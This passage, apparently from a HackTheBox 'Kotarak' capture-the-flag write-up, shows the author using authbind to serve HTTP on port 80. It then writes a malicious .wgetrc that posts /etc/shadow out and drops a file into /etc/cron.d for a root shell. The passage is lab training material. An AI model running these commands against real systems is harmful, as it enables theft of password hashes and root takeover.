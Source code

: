  
A quick Google search teels me that this program is desinged to allow low-privilge users to bind sockets to high-privileged ports :D


If we check the permissions to this program we can see it's only accessible by our user `atanas`:

![ll-47](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/ll-47.png)


So now we can add the `authbind` command to our python server and we should be able to start a socket on port 80:

```bash
authbind python3 -m http.server 80
```


And just a couple of seconds later I receive a connection from `10.0.3.133`:

![conn-48](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/conn-48.png)


So now can confirm that there is a cronjob running from inside the container that makes these requests, and we can bind to low ports, so we can probably exploit this! 


Here is the setup:


1) create the malicious `.wgetrc` file on the target. 

This file will be hosted by the FTP server later on. To create the file we can actually copy from the POC as it should serve our purpose:

```bash
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

![wgetrc-49](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/wgetrc-49.png)
